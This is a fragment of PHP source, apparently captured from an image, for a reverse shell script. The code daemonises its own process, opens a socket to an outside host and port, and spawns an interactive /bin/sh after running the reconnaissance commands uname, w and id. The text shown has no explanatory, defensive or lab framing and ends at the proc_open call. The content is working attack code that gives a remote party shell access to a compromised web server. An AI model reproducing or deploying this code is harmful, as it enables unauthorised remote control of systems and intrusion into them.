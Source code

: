 ```php=
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);
```